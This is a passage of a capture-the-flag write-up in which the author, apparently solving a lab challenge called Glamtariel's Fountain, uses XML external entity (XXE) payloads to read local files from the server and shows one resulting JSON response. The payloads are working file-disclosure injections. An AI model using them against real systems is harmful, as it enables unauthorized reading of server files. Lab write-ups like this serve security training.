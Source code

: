 This is a new response, so it shows that this was accepted by the server. Now my idea was to start trying out xxe payloads until something sticks. After a lot of trial and error I came upon the following payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt"> ]>
<root>
   <imgDrop>&xxe;</imgDrop>
   <reqType>xml</reqType>
   <who>princess</who>
</root>
```

Using the APP hint in the path, along with the static/images directory which can be seen in the path for images in the HTTP responses and the ringlist.txt file, we get the following response:

```
{
  "appResp": "Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this.^She really does try to keep things safe. Best just to put it away. (click)",
  "droppedOn": "none",
  "visit": "static/images/pholder-morethantopsupersecret63842.png,262px,100px"
}
```

The following image is what is linked to in the response:

![](images/glamtariels_fountain/pholder.png)

Looking on the image itself, we see 3 different pieces of information:
 - x_phial_pholder_2022
 - bluering.txt
 - redring.txt

Using these hints, I assumed there must be a folder named `x_phial_pholder_2022` with the files `redring.txt` and `bluering.txt` in it. Lets try the following:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/redring.txt"> ]>
<root>
   <imgDrop>&xxe;</imgDrop>
   <reqType>xml</reqType>
   <who>princess</who>
</root>
```
